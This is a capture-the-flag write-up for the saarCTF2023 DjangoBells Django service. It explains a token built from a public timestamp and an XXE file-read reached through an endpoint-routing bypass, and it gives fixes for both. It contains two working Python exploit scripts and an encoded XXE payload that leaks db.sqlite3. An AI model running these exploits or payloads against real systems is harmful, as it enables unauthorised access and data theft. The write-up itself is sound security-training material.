 ```yaml
---
title: 'saarCTF2023 - DjangoBells'
date: 2023-11-22T16:31:22+01:00
author: 'R1D3R175 & SimozB'
description: 'Writeup for saarCTF2023 DjangoBells service' 
cover: '/img/ctf/saarCTF2023/logo.png'
draft: false
---
```

# DjangoBells Writeup
## Challenge description
DjangoBells is a **web service** written in **Django**. Upon visiting `<IP>:8000`, two functionalities become apparent. 
The first, found on the index page, allows users to **add** a "wish" in the corresponding input box. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001027326.png" position="center" alt="Hello Friend" position="center" >}}

The second is the `/list` endpoint, which displays **censored** "wishes" along with their IDs and timestamps.

{{< image src="/img/ctf/saarCTF2023/image-20231120001056857.png" position="center" alt="image-20231120001056857" >}}

## First vulnerability

Upon attempting to create a wish, we observed the URL becoming `/read/<something1>/<something2>`. A code analysis reveals that the first segment, called `id` is a **UUIDv4** for the created wish, while the second segment, called `token` should be a **randomly** **encrypted** **nonce** in MD5. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001323632.png" position="center" alt="image-20231120001323632" >}}

However, an **error** exists in the code. The **Token** object, **intended** to be initialized with `(nonce, timestamp)`, is mistakenly initialized with **`(timestamp, nonce)`**. Essentially, the second part of the URL is the **MD5 of the timestamp**, which is **uncensored** in the `/list` endpoint. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001543925.png" position="center" alt="image-20231120001543925" >}}

We created this simple exploit:

```python
#!/usr/bin/env python3
import requests
import sys
from bs4 import BeautifulSoup
import hashlib
import time

IP = sys.argv[1]

def get_timestamp(div):
    no_useless_tag = str(div).replace("<strong>", "").replace(
        "</strong>", "").replace("<br>}}", "")
    timestamp = no_useless_tag.split("Timestamp:")[1].strip().split("\n")[0]
    return int(timestamp)

def get_flag():
    req = requests.get(f"http://{IP}:8000/list/").text
    soup = BeautifulSoup(req, 'html.parser')
    divs = soup.find_all('div', class_='wish-item')

    for div in divs:
        timestamp = get_timestamp(div)
        curr_timestamp = int(time.time())
        if curr_timestamp - timestamp > 120:  # avoid too old posts
            continue

        passtoken = hashlib.md5(str(timestamp).encode("utf-8")).hexdigest()
        
        resp = requests.get(f"http://{IP}:8000/read/{id}/{passtoken}")
        #: get div with id "wish" (where the flag is)
        soup = BeautifulSoup(resp.text, 'html.parser')
        div_flag = soup.find('div', id='wish')
        if "SAAR" in div_flag.text:
            print(div_flag.text, flush=True)

get_flag()
```

The fix for this issue involves simply correcting the parameter order:

{{< image src="/img/ctf/saarCTF2023/image-20231120002315691.png" position="center" alt="image-20231120002315691" >}}

## Second Vulnerability

Remember the `/read` endpoint? There was something **weird** about how it was getting called...
First we go here...

{{< image src="/img/ctf/saarCTF2023/urlpatterns.png" position="center" alt="/img/ctf/saarCTF2023/urlpatterns.png" >}}

Then we go to a **`make_api_call_token`** function...

{{< image src="/img/ctf/saarCTF2023/get_post.png" position="center" alt="/img/ctf/saarCTF2023/get_post.png" >}}

{{< image src="/img/ctf/saarCTF2023/make_api_call.png" position="center" alt="/img/ctf/saarCTF2023/make_api_call.png" >}}

Now this just looks **weird**!

If we inspect the code further, we can also see that there is an **XML parser** at the **`/report`** endpoint however we **can't** call it with whatever params we want.

Let's analyze the `make_api_call_token` function, it gets passed the `post_id`, the `pass_token` and the `endpoint`... but why is the endpoint at the **end**?
Since we **can** control both the `post_id` and the `pass_token` parameters, we can call **whatever** `api` endpoint we want using this payload:
```apl
/read/<your_endpoint>/<your_param>
```
Which will then get translated to
```apl
/api/<your_endpoint>/<your_param>/read
```

How can we **abuse** this?

We entirely **bypass** the regex filter on the *original* `/report` endpoint which, for instance, was this:
{{< image src="/img/ctf/saarCTF2023/report_regex.png" position="center" alt="/img/ctf/saarCTF2023/report_regex.png" >}}
Now it's important to see **how** the **`api`** view gets called and **pinpoint** what we want to do.

{{< image src="/img/ctf/saarCTF2023/report_api_func.png" position="center" alt="/img/ctf/saarCTF2023/report_api_func.png ">}}

Our objective will now be to **leak** something (like the `db.sqlite3` file) inside the `id` field of the XML.

Since there's an **XML parser**, it made us think **instantaneously** about an **XXE** so... let's analyze the **`miniXML`** class!

{{< image src="/img/ctf/saarCTF2023/minixml_parse.png" position="center" alt="/img/ctf/saarCTF2023/minixml_parse.png ">}}

This is the *"main loop"* of the parser.
The first function, **`self.eat_XMLdecl`** doesn't do anything useful for us so we're just going to **skip** it.
Something more interesting happens in the **2nd function**, `read_doctype`.

{{< image src="/img/ctf/saarCTF2023/minixml_read_doctype.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_doctype.png ">}}

It calls a function named **`read_entity`** which sounds quite juicy, let's see what it does!

{{< image src="/img/ctf/saarCTF2023/minixml_read_entity.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_entity.png" >}}

We can see that it replaces `file://`, however we don't *really* need it ¯\\\_(ツ)_/¯. Apart from that, we can also see that it **assigns** the **content of the file** to a `xe` class variable.
Let's see **how** it is used and if we have some **constraints**...

{{< image src="/img/ctf/saarCTF2023/minixml_replace.png" position="center" alt="/img/ctf/saarCTF2023/minixml_replace.png ">}}

Also, that's how the class is initialized:

{{< image src="/img/ctf/saarCTF2023/minixml_init.png" position="center" alt="/img/ctf/saarCTF2023/minixml_init.png ">}}

We can deduce that we **cannot** add any extra keys to the `xe` attribute.
But who says we can't just **reuse** one? Suppose we have

```apl
[ <!ENTITY amp SYSTEM "db.sqlite3"> ] 
```
What would happen? It would get *translated* like this:
```apl
name = "amp"
path = "db.sqlite3"
self.xe["&amp;"] = <content_of_db.sqlite3>
```
We can **overwrite** another key without triggering that "security" check!

Now all that it's left to do is to **write** the exploit and **encode** it.
```xml
<!DOCTYPE root [
    <!ENTITY amp SYSTEM "db.sqlite3">
]>
<id>&amp;</id>
<reason>pwn3d by NASLAB</reason>
```
Just encode the payload in **base64** and then prepare the URL to **bypass** the regex on `report`, which is:

```apl
/read/report/?reason=<b64 payload>
```
This isn't enough tho... remember that it **appended** the endpoint (which in this case is `/read`)? In order to "remove" it we can just add an **`&`** and it will get counted as a **GET parameter**.

**Final payload structure**
```apl
/read/report?reason=<b64 payload>&
```

Since it **also** called `unquote` we have to **URL-encode** the payload **twice** (one for Django, one for the `unquote`)

**Exploit**

```python
#!/usr/bin/env python3
import sys
import requests
import re

IP = sys.argv[1]
FLAG_REGEX = re.compile(r"SAAR\{[A-Za-z0-9-_]{32}\}")

VULN = "read/report/%3Freport%3DPCFET0NUWVBFIHJvb3QgWzwhRU5USVRZIGFtcCBTWVNURU0gImRiLnNxbGl0ZTMiPl0%252BPGlkPiZhbXA7PC9pZD48cmVhc29uPmFzZDwvcmVhc29uPg%253D%253D%2526"

def get_flag():
    massive = requests.get(f"http://{IP}:8000/{VULN}")
    
    flags = FLAG_REGEX.findall(massive.text)
    for flag in flags:
        print(flag, flush=True)

get_flag()
```

**Fix**

An easy fix is just to disallow `report` as the `post_id`.

{{< image src="/img/ctf/saarCTF2023/fix_vuln2.jpg" position="center" alt="/img/ctf/saarCTF2023/fix_vuln2.jpg" >}}



_- NASLAB_